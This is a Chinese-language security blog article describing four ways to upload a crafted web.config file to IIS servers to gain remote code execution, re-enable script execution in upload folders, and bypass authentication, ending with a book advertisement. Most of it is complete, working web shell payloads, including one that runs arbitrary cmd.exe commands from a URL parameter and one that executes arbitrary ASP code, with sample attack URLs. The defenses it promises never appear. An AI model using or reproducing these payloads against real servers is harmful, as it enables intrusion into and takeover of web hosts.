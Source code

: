 #  .NET 四种方法上传 web.config 绕过限制实现RCE   
原创 专攻.NET安全的  dotNet安全矩阵   2025-05-02 00:26  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在 .NET Web 应用安全领域，web.config  
 文件不仅仅是一个普通的配置文件，还能成为攻击者绕过安全限制、执行任意代码的重要工具。  
最近，一篇关于某电力公司 web.config  
 RCE 的文章在安全圈引发了热议，详细描述了攻击者如何利用 web.config  
 实现远程代码执行，并成功获取系统控制权限。  
本篇文章将系统性地介绍 **四种 基于 web.config 绕过限制并执行代码的技术**  
，结合真实案例，深入剖析其利用方式及相应防御措施。  
  
**01. 作为.NET脚本执行**  
  
  
  
当 IIS 服务器 **仅支持 .NET 运行环境**  
，且无法上传 .aspx  
、.asmx  
、.soap  
 等扩展名的文件时，攻击者可以尝试上传特制的 web.config  
，让其作为 .NET 脚本运行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9TdNcryY8eHrGiajzVTAwUbGe4SlRIrKtzgsJbdBVtBWnEhrR7PtoTJed8CFTZ6ICnSfkUnITPlbg/640?wx_fmt=png&from=appmsg "")  
## 1.1 利用方式  
  
攻击者可以上传以下 web.config  
 文件，使其 .config  
 文件扩展名被当作 .aspx  
 解析，并执行动态 .NET 代码：  
  
```
<configuration>    <system.web>        <compilation defaultLanguage="cs">            <buildProviders>                <add extension=".config" type="System.Web.Compilation.PageBuildProvider" />            </buildProviders>        </compilation>        <httpHandlers>            <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />        </httpHandlers>    </system.web></configuration><%if (flag){    System.Diagnostics.Process process = new System.Diagnostics.Process();    process.StartInfo.FileName = "cmd.exe";    string str = Request["c"];    process.StartInfo.Arguments = "/c " + str;    process.StartInfo.RedirectStandardOutput = true;    process.StartInfo.RedirectStandardError = true;    process.StartInfo.UseShellExecute = false;    process.Start();    string str2 = process.StandardOutput.ReadToEnd();    Response.Write("<pre>" + str2 + "</pre>");    Response.Flush();    Response.End();}%>
```  
  
## 1.2 执行效果  
  
攻击者访问以下 URL，可直接执行系统命令：upload/web.config?c=tasklist，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9TdNcryY8eHrGiajzVTAwUbl2NAb7Wicu3VoKePTfxsYKhibmEzzlNUefeibxXQVRkziayZqzPCmzumTg/640?wx_fmt=png&from=appmsg "")  
  
注意：web.config必须上传到 **站点根目录**  
，否则可能无法解析。  
  
**02. 作为ASP脚本执行**  
  
  
  
**如果 IIS 支持 ASP 运行环境，但无法上传 .asp 文件，攻击者可以上传 web.config，使其作为 ASP 代码解析。**  
## 2.1 利用方式  
  
**上传以下 web.config，让 .config 文件扩展名被当作 .asp 解析，并执行 ASP 代码：**  
  
```
<configuration>    <system.webServer>        <handlers accessPolicy="Read, Script, Write">            <add name="web_config" path="*.config" verb="*"                  modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll"                  resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        </handlers>        <security>            <requestFiltering>                <fileExtensions>                    <remove fileExtension=".config" />                </fileExtensions>                <hiddenSegments>                    <remove segment="web.config" />                </hiddenSegments>            </requestFiltering>        </security>    </system.webServer></configuration><!--<%Response.write("->"&1+2&"<-")on error resume nextif execute(request("dotnet")) <>"" then execute(request("dotnet"))%>-->
```  
## 2.2 执行效果  
  
**攻击者访问以下 URL，可执行任意 ASP 代码，页面返回当前服务器的系统时间，证明代码执行成功。**  
  
```
/upload/web.config?dotnet=response.write(now())
```  
  
  
**注意：服务器 必须支持 ASP，否则无法解析 .config 作为 ASP 代码。**  
  
****  
**03. 绕过策略限制**  
  
****  
  
****  
  
**某些情况下，管理员会通过 web.config 禁止 uploads/ 目录执行脚本，但仍允许上传文件。攻击者可以上传新的 web.config 重新启用脚本执行权限。**  
## 3.1 利用方式  
  
**上传以下 web.config，重新开放 uploads/ 目录的脚本执行权限：**  
  
```
 
<configuration>    <system.webServer>        <handlers accessPolicy="Read, Write">        </handlers>    </system.webServer></configuration>
<configuration>    <system.webServer>        <handlers accessPolicy="Read, Write">        </handlers>    </system.webServer></configuration>
```  
## 3.2 执行效果  
  
**攻击者上传 Shell2asmx.soap 后被禁止运行，如下图所示。**  
  
****  
**但此时修改accessPolicy策略，添加写入、执行、运行脚本权限。即accessPolicy="Read,Write,Execute,Script"，再向uploads目录下上传新配置的这个web.config，即可打开正常界面，如下图所示**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9TdNcryY8eHrGiajzVTAwUbbO0HTdYVYias7SvVpCcmiaAFB8agE9mS47Qg9OCSWFlDkSTSvqGovCzQ/640?wx_fmt=png&from=appmsg "")  
**04. 绕过身份认证.NET web.config 可用于身份认证，默认会拒绝匿名用户访问。只有已登录用户才能访问该目录，一切的匿名访问都被重定向至登录页，重定向的URL地址如下所示。最新研究成果：攻击者可以上传 web.config 重新开放目录权限，并执行任意代码。4.1 利用方式上传以下 web.config，绕过身份认证： <configuration>    <system.web>        <authorization>            <allow users="*" />        </authorization>    </system.web></configuration>然后访问 URL 执行系统命令： /upload/web.config?dotnet=Response.Write(GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8").exec("cmd.exe /c tasklist").StdOut.ReadAll())该请求会利用 Response.Write 输出 cmd.exe /c tasklist 的执行结果，即当前系统的进程列表，如下图所示。05. 扩展阅读学习以上知识点已收录于新书《.NET安全攻防指南》第25.1.3节，并且有完整分析 web.config 绕过限制并执行代码的技术，并提供详细的攻防实践！全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！感谢大家的支持与肯定，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，全套仅售141元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
  

